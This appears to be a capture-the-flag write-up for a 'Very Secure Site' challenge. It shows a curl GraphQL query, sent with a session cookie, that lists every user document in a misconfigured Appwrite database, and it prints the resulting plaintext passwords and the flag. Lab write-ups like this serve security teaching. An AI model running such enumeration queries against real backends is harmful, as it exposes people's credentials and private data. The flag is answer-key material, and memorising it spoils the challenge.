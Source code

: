 # Very Secure Site
It's a simple login form, that takes you to a logout page.

The site uses obfuscated JS, but can see that it's sending some GraphQL requests with X-Appwrite headers. 

The site gets the user description on `/dashboard` with this query:
```
query { databasesGetDocument ( databaseId:"usersdb", collectionId:"usersc", documentId:"663a4d0c0031f4e6edc0" ) {data} }
```

You can use the [docs](https://appwrite.io/docs/references/cloud/client-web) to find the `databasesListDocuments` function and get the other users:

```sh
$ curl "https://cloud.appwrite.io/v1/graphql" -H "X-Appwrite-Project: 6622dcf123e47665c626" -H "Cookie: a_session_6622dcf123e47665c626=[session]" -H "content-type:application/graphql" --data 'query { databasesListDocuments ( databaseId:"usersdb", collectionId:"usersc" ) {documents {data} } }' | jq
{
  "data": {
    "databasesListDocuments": {
      "documents": [
        {
          "data": "{\"username\":\"anonUser\",\"isAdmin\":false,\"password\":\"p4ssw0rd\",\"about\":\"TODO: add stuff here\",\"$permissions\":null}"
        },
        {
          "data": "{\"username\":\"mali_ivica\",\"isAdmin\":true,\"password\":\"l0z1nkaaa\",\"about\":\"Mali Ivica je zaboravio omogu\\u0107iti document security. Nemojte biti kao Mali Ivica\\n\\nSTEM24{why_4r3_th3re_gr4phs_1n_my_ql_84612739}\",\"$permissions\":null}"
        },
        {
          "data": "{\"username\":\"mirko\",\"isAdmin\":false,\"password\":\"very_secure_password_123\",\"about\":\"Hey now, you're an all star\\nGet your game on, go play\\n\\nHey now, you're a rock star\\nGet the show on, get paid\\n\\nAnd all that glitters is gold\\nOnly shootin' stars break the mold\",\"$permissions\":null}"
        }
      ]
    }
  }
}
```

and get the flag from the user `mali_ivica`:
```
STEM24{why_4r3_th3re_gr4phs_1n_my_ql_84612739}
```

